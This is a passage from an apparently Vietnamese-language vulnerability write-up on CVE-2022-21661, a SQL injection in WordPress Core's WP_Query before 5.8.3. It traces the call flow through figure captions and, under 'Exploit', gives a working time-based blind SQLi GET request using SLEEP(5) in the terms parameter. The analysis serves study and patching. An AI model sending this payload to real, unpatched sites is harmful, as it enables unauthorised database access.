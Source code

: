 #### Flow

{{< figure src="callstack1.png" title="Đối tượng WP_Query được tạo" >}}
{{< figure src="callstack2.png" title="Hàm __construct của WP_Query được gọi" >}}
{{< figure src="callstack3.png" title="Gọi get_posts để thực thi query" >}}
{{< figure src="callstack4.png" title="Điều kiện trong get_posts thỏa mãn, gọi get_sql" >}}
{{< figure src="callstack5.png" title="get_sql trả về get_sql_clauses" >}}
{{< figure src="callstack6.png" title="get_sql_clauses gọi get_sql_for_query" >}}
{{< figure src="callstack8.png" title="Duyệt mảng query trong get_sql_for_query" >}}
{{< figure src="callstack15.png" title="Kiểm tra keys terms, taxonomy, operator,..." >}}
{{< figure src="callstack7.png" title="Gọi get_sql_for_clause" >}}
{{< figure src="callstack9.png" title="Bypass clean_query giữ nguyên payload" >}}
{{< figure src="callstack10.png" title="Payload gán vào $sql['where']" >}}
{{< figure src="callstack11.png" title="Thêm () vào mệnh đề WHERE" >}}
{{< figure src="callstack16.png" title="Thêm AND và trả về get_sql" >}}
{{< figure src="callstack14.png" title="get_posts nhận giá trị từ get_sql" >}}
{{< figure src="callstack12.png" title="Payload thêm vào $clauses['where']" >}}
{{< figure src="callstack13.png" title="Quan sát last_query tại nơi thực thi SQL" >}}

**Chart minh họa luồng thực thi**

{{< figure src="chart.png" title="Biểu đồ luồng thực thi của WP_Query dẫn đến SQLi" >}}

## Exploit

Thay giá trị của `terms` bằng payload SQLi:

```http
GET /demo/?terms=1)+AND+(SELECT+1+FROM+(SELECT+SLEEP(5))a)+%23+ HTTP/1.1
```

{{< figure src="detect.png" title="Kết quả phản hồi cho thấy truy vấn chậm do payload hoạt động" >}}

## Conclusion

Lỗ hổng **CVE-2022-21661** trong **WordPress Core** trước phiên bản **5.8.3**, quay ngược đến tận phiên bản **3.7.37**, xuất phát từ việc làm sạch dữ liệu (**sanitization**) không đúng cách trong `WP_Query` dẫn đến lỗ hổng SQL Injection.

## References

[SQL Injection cheat sheet - PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)

[CVE-2022-21661 Detail](https://www.cve.org/CVERecord?id=CVE-2022-21661)

## Notes

[^tax_query]: Vì patch nằm trong file **src/wp-includes/class-wp-tax-query.php**, file này định nghĩa class `WP_Tax_Query`, chịu trách nhiệm xử lý tham số `tax_query` trong `WP_Query`. Nếu có thay đổi trong file này thì gần như chắc chắn nó liên quan đến quá trình **parse/validate** của `tax_query`.
